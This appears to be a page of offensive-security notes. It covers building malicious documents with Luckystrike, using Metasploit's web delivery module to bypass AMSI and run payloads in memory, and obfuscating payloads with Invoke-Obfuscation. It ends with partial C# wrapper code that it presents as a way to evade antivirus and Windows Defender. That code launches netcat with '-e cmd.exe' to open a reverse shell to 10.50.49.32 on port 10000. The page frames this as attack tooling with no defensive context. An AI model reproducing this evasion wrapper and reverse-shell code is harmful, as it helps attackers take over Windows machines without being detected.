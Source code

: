 # Create malicious Documents

##### Luckystrike

https://github.com/curi0usJack/luckystrike






# Using web delivery module metasploit to bypass amsi and execute any msf payload of our choice

web delivery module sets up a server and we have to run a command on victim which will fetch the resource ffrom running msf server ,attempt to bypass AMSI and then execute our payload in memory

It supports python(mostly for Linux),php (Web application -If we have a rce we can run the command from this module), powershell(Mostly for windows)



# use INvoke Obfuscation script from github

https://github.com/danielbohannon/Invoke-Obfuscation/blob/master/Invoke-Obfuscation.ps1

https://medium.com/@ammadb/invoke-obfuscation-hiding-payloads-to-avoid-detection-87de291d61d3







# Wrapper reverse shell exeutable code (BYpass AV and windows defender)
  
  THis csharp code can be commpiled into exeutable using mono-devel compiler
  THis will make a execuatble which is a wrapper and will not be suspicious to AV and defenses. BUt internally it executes our malicuous code
  
  
  
  .......................
  
//IMporting basic modules which will help us start system processes
using System;  
using System.Diagnostics;


namespace Wrapper{
    class Program{
        static void Main()

       {
         
         //Creating an Process class object which is imported from System module
          Process proc = new Process();
          //Creating process info telling it instruction on what to do when started in system memory
          ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-cyberjunkie.exe", "10.50.49.32 10000 -e cmd.exe");
         